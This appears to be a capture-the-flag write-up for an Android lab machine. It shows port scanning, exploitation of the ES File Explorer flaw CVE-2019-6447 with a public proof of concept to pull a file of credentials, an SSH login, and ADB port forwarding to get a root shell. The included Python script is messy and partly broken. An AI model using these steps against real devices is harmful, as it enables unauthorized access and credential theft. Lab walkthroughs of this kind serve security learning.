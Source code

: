### Box Info
OS: Android\
IP: 10.10.10.247

## Part I

### Skills learned:
Curl/Python
Andriod OS + tools

### Enumeration
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 2222 SimplSSH
+ 5555 Andriod Debug bridge
+ 42135 ES File explorer
+ 59777 Bukkit JSONAPI
+ 44233 fingerprint-strings

### Research
Yields CVE-2019-6447
+ https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
+ https://www.exploit-db.com/exploits/50070

### Step 1: File Extraction
+ python3 poc.py ${cmd} ${IP}
+ python3 poc.py ${cmd} ${IP} $dir/$.jpg
+ [+] Done. Saved as 'out.dat'.

After file downloaded, open
+ ${IP}:59777/${dir}/${.jpg} || xdg-open out.dat
+ File gives UN && PW

### Step 2: SSH
+ ssh -p 2222 ${UN}@${IP}
+ ${PW}

### Information Gathering
+ :/whoami
  u0_a76
+ :/uname -a
  Linux localhost 4.9.214-android-x86_64-g04f9324 #1 SMP PREEMPT Wed Mar 25 17:11:29 CST 2020 x86_64
+ :/find / -perm /6000 2>/dev/null
  /system/xbin/procmem
  /system/xbin/su
+ :/ $ id
  uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768

### Find Flag
Have fun searching!

## Part II

### Skills learned
ssh port forwarding
adb tool

### Install tools:
adroid-tools-adb

### Port forwarding script.py:
import socket\
import subprocess\
import pyautogui\
import time\
\
def connection_function(host, port):\
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)\
s.connect((host, port))\
print(s.recv(1024))\
\
connection_function("${IP}", 2222)\
\
def adb_connection(host, port):\
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)\
s.connect((host, port))\
print(s.recv(1024))\
\
subprocess.call(['ssh -p 2222 -L 5555:localhost:5555 kristi@${IP}'], shell=True)\
password = "[PASSWORD OF TARGET MACHINE OF SSH]"\
print(s.recv(1024))\
\
adb_connection("${IP}", 2222)\

### Start port-forwarding server
+ adb start-server
+ adb connect localhost:5555
+ adb devices

### Initiate root shell:
+ adb -s localhost:5555 shell

### Find root Flag!
Happy searching!
